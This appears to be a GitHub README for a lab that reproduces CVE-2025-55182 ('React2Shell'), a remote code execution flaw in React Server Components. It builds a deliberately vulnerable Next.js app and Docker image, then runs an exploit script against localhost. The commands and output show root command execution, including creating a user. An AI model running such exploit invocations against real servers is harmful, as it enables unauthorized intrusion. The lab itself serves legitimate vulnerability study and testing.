



# reat2shell: Vulnerable app

[Back](../README.md)

- [reat2shell: Vulnerable app](#reat2shell-vulnerable-app)
  - [Local App](#local-app)
  - [Dockerize](#dockerize)
  - [Push image](#push-image)

---

- **CVE:** [CVE-2025-55182](https://www.cve.org/CVERecord?id=CVE-2025-55182) ("React2Shell")
  - version: `react@19.0.0` (bundled via `next@15.2.2`)
  - issue: unauthenticated RCE in React Server Components (Flight payload deserialization)

| #   | Steps                 | Step                                  |
| --- | --------------------- | ------------------------------------- |
| 1   | local app and exploit | create simple Next.js app and exploit |
| 2   | Dockerize             | Create dokerfile, run and expoit      |
| 3   | push image            | build and push                        |

- reference: https://github.com/msanft/CVE-2025-55182

---

## Local App

- init app

```sh
# init next.js
mkdir ./app/react2shell
npx create-next-app@latest ./app/react2shell --js --app --src-dir --no-tailwind --no-eslint
# pin risky version
npm install --prefix ./app/react2shell next@15.2.2
```



- run app

```sh
# run app
npm run dev --prefix ./app/react2shell
```



- Exploit vulnerability: launch calculator in windows

```sh
# test on windows open calculator
python ./scripts/rce.py http://localhost:3000 calc
# 500
# 0:{"a":"$@1","f":"","b":"development"}
# 1:E{"digest":"712750234","name":"Error","message":"NEXT_REDIRECT","stack":[],"env":"Server"}
```



---

## Dockerize

```sh
# build the image
docker build -f app/Dockerfile.insecure -t react2shell:insecure app

# run
docker run --rm -d --name react2shell-insecure -p 3000:3000 react2shell:insecure

# Exploit vulnerability
python scripts/rce.py http://localhost:3000 id
# status code: 500
# response text:
# 0:{"a":"$@1","f":"","b":"development"}
# 1:E{"digest":"uid=0(root) gid=0(root) groups=0(root)","name":"Error","message":"NEXT_REDIRECT","stack":[],"env":"Server"}

# executable response:
# uid=0(root) gid=0(root) groups=0(root)

python scripts/rce.py http://localhost:3000 "useradd test"
# status code: 500
# response text:
# 0:{"a":"$@1","f":"","b":"development"}
# 1:E{"digest":"1271169623","name":"Error","message":"NEXT_REDIRECT","stack":[],"env":"Server"}

python scripts/rce.py http://localhost:3000 "id test"
# status code: 500
# response text:
# 0:{"a":"$@1","f":"","b":"development"}
# 1:E{"digest":"uid=1001(test) gid=1001(test) groups=1001(test)","name":"Error","message":"NEXT_REDIRECT","stack":[],"env":"Server"}

# executable response:
# uid=1001(test) gid=1001(test) groups=1001(test)

docker rm react2shell-insecure -f
# react2shell-insecure
```

---

## Push image

```sh
# build
docker build -f app/Dockerfile.insecure -t simonangelfong/react2shell:insecure app

docker login
# push
docker push simonangelfong/react2shell:insecure

# test
docker run --rm -d --name react2shell-insecure -p 3000:3000 simonangelfong/react2shell:insecure
python scripts/rce.py http://localhost:3000 id
# status code: 500
# response text:
# 0:{"a":"$@1","f":"","b":"development"}
# 1:E{"digest":"uid=0(root) gid=0(root) groups=0(root)","name":"Error","message":"NEXT_REDIRECT","stack":[],"env":"Server"}

# executable response:
# uid=0(root) gid=0(root) groups=0(root)

# cleanup
docker rm react2shell-insecure -f
# react2shell-insecure
```
